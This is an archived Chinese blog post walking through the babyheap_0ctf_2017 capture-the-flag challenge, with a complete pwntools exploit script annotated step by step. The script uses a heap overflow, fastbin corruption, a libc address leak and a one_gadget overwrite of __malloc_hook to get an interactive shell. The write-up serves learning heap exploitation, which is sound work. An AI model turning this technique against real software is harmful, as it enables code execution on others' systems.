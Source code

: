 <!--yml
category: 未分类
date: 2022-04-26 14:38:50
-->

# 绝对详细的babyheap_0ctf_2017题解_eeeeeeeeeeeeeeeea的博客-CSDN博客

> 来源：[https://blog.csdn.net/xieyichensss/article/details/116071092](https://blog.csdn.net/xieyichensss/article/details/116071092)

这是我第一次做堆题，其他师傅的wp都看了一个周左右，才把大概所有我不明白的地方搞懂。
直接上其他师傅的exp，然后逐步分析叭。（希望我尽快可以自己做堆）
from pwn_debug import *

pdbg = pwn_debug(‘babyheap_0ctf_2017’)
pdbg.remote(‘node3.buuoj.cn’,26076)
p = pdbg.run(‘remote’)

def allocate(size):
p.recvuntil('Command: ')
p.sendline(‘1’)
p.recvuntil('Size: ')
p.sendline(str(size))

def fill(idx,content):
p.recvuntil('Command: ')
p.sendline(‘2’)
p.recvuntil('Index: ')
p.sendline(str(idx))
p.recvuntil('Size: ')
p.sendline(str(len(content)))
p.recvuntil('Content: ')
p.send(content)

def free(idx):
p.recvuntil('Command: ')
p.sendline(‘3’)
p.recvuntil('Index: ')
p.sendline(str(idx))

def dump(idx):
p.recvuntil('Command: ')
p.sendline(‘4’)
p.recvuntil('Index: ')
p.sendline(str(idx))
p.recvline()
return p.recvline()

allocate(0x10)
allocate(0x10)
allocate(0x10)
allocate(0x10)
allocate(0x80)
free(1)
free(2)
这一段代码：申请五个堆块，下标从0到4，用户区大小为0x10，加上chunk head的0x10，共0x20大小。再先释放下标为1，然后释放下表为2。图
![在这里插入图片描述](img/a042222aff4542ee7a9914184d914dc4.png)此时allocate表下的，chunk1和chunk2已经是free掉了。
#gdb.attach§
![](img/86130241a5cd38596cbcf3c06b35732d.png)这里注意以下大小，chunk0到chunk3是是0x21。因为标志位P位为1.
![在这里插入图片描述](img/44c3f89b2a21ffd794e579aeeebdf671.png)

payload = p64(0) * 3
payload += p64(0x21)
payload += p64(0) * 3
payload += p64(0x21)
payload += **p8(0x80)** //注意这里是p(8),因为只需要改变最低位的一个字节为80就好啦，chunk0：0-0x1f chunk1：0x20-0x3f chunk2：0x40-0x5f chunk3：0x60-0x7f chunk4：0x80-0x100
fill(0,payload)
这段代码：是修改chunk2的user date区域，但是现在chunk2已经free了，所以user data区首地址变为了fd指针所指向的区域。图
![在这里插入图片描述](img/f961b3318cfd82b234d4c8005741eb1e.png)

#gdb.attach§
注：只能向不在free状态的chunk写入数据
payload = p64(0) * 3
payload += p64(0x21)
fill(3,payload)
这段代码：向chunk3写入数据，填充chunk4的size块为0x21。因为fastbin有一个原则：就是通过fd指针连接的一定是相同大小的嘞。看size的图
![在这里插入图片描述](img/4292c15c57b41c137a24af98f8b26f73.png)

#gdb.attach§

allocate(0x10) //将chunk2 allocate回来,放入刚才chunk1所在的位置
allocate(0x10) //将chunk2的fd指针指向的chunk4 allocate回来,放在刚才chunk2所在的位置
也就是index2和index4的位置上都是chunk4
fill(1,‘aaaa’)
fill(2,‘bbbb’)
payload = p64(0) * 3
payload += p64(0x91)
fill(3,payload)
这段代码：将chunk4的size改为0x91。（至于为什么多余一个1，这是size的标志位的P位，P=1时，前一个chunk正在使用，这是为了防止chunk进行合并）
allocate(0x80) //进行这一步是为了free之前，chunk4与top chunk不连接。。。。。。。）
free(4) //将chunk4放入unsorted bin中
这段代码：
libc_base = u64(dump(2)[:8].strip().ljust(8, “\x00”))-0x3c4b78
log.info("libc_base: "+hex(libc_base)) //因为之前释放到unsorted bin中，就是如果 usortbin 只有一个 bin ，它的 fd 和 bk 指针会指向同一个地址(unsorted bin 链表的头部），这个地址为 main_arena + 0x58
![在这里插入图片描述](img/e1a091614f76390a7ad421b8f1b2dbed.png)由此图和Pwngdb（就是Pwngdb）的magic命令发现发现malloc__hook和libc基地址的偏移为0x3c4b10
我们查看main_arena附近地址的数据，发现了malloc__hook
这里来说以下libc基地址的计算:dump（2）得到的是main_arena+0x58的地址，减去0x58得到main_arena地址(因为刚才查看了main_arena附近的地址，知道malloc__hook和main_arena偏移为0x10)，再减0x10得到malloc__hook地址（我们用magic得到了malloc__hook和libc的偏移），最后减去malloc__hook和libc的偏移即为libc基地址！！！！！！

![在这里插入图片描述](img/eaa5f14354eb58c839c99880cd1f4b57.png)

allocate(0x60)
free(4)
//将chunk4 allocate回来后放入fastbin
payload = p64(libc_base+0x3c4aed)
// 我们需要在allocate回来的chunk6（index4）后伪造一个fake chunk，然后需要的大小要在0x60-0x7f之间，我们找到的位置是0x0x7fa8994e6aed，然后要算出与libcbase的偏移是0x3c4aed。
fill(2, payload)

allocate(0x60) // chunk6
allocate(0x60) //chunk6所指向的fake chunk

payload = p8(0)*3
payload += p64(0)*2 进行内存对齐，因为找到的合适的大小的位置与malloc__hook的偏移为19，所以要对齐内存哦。
payload += p64(libc_base+0x4526a) //0x4526a是one_gadget的一个地址
fill(6, payload)

#gdb.attach§

allocate(255) //进行allocate之前需要检查malloc__hook函数的内容，如果为0，就跳过此步骤，如果不为0，就跳转到此部分执行。

p.interactive()

注：我一开始看wp的时候，有的根本不懂，后来知道是因为chunk和index的区别，我们一开始构造的函数都是以index为下标的。奉上一张图。（建议最后再看，这是malloc和free的过程，中间我跳了一些）
![在这里插入图片描述](img/dbddb5ab873f1b262751143f751a2c55.png)